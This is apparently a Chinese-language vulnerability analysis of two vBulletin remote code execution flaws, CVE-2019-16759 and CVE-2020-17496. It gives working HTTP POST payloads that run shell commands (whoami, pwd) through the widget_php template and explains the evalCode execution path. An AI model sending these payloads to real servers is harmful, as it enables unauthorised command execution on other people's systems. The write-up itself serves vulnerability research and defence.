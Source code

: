 ### <a class="reference-link" name="0x1%20CVE-2019-16759"></a>0x1 CVE-2019-16759

<a class="reference-link" name="payload"></a>**payload**

分析过模板渲染，该漏洞就一幕了然了，首先看下payload

```
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Connection: close

routestring=ajax/render/widget_php&amp;widgetConfig[code]=system('whoami');
```

<a class="reference-link" name="%E6%A8%A1%E6%9D%BF%E6%B8%B2%E6%9F%93%E6%BC%8F%E6%B4%9E"></a>**模板渲染漏洞**

该漏洞产生的原因为 widget_php 对应的模板中存在恶意代码执行漏洞，数据库中存储的templateid号为

[![](https://p0.ssl.qhimg.com/t016a09fe65f87557d4.png)](https://p0.ssl.qhimg.com/t016a09fe65f87557d4.png)

主要命令执行点为<br>`vB5_Template_Runtime::parseAction('bbcode', 'evalCode', $widgetConfig['code'])`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01454731d903103e26.jpg)

<a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%82%B9%E5%88%86%E6%9E%90"></a>**命令执行点分析**

vB5_Template_Runtime::parseAction 该函数虽然没有函数参数，但是解析了传递过来的所有参数到$arguments 变量由 vB5_Frontend_Controller_Bbcode类中的evalCode方法执行所有的参数

[![](https://p4.ssl.qhimg.com/t01d16544d25def2d80.png)](https://p4.ssl.qhimg.com/t01d16544d25def2d80.png)

evalCode方法如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a09c837e518e36e0.png)

### <a class="reference-link" name="0x2%20CVE-2020-17496"></a>0x2 CVE-2020-17496

结合前面模板渲染功能分析，可以很快的定位该漏洞。简要来说该漏洞通过二次渲染再次触发了CVE-2019-16759漏洞，具体分析如下。

<a class="reference-link" name="payload"></a>**payload**

```
POST /ajax/render/widget_tabbedcontainer_tab_panel?XDEBUG_SESSION_START=phpstorm HTTP/1.1
Host: localhost
User-Agent: curl/7.54.0
Accept: */*
Content-Length: 100
Content-Type: application/x-www-form-urlencoded

subWidgets[0][template]=widget_php&amp;subWidgets[0][config][code]=echo shell_exec("pwd"); exit;

```

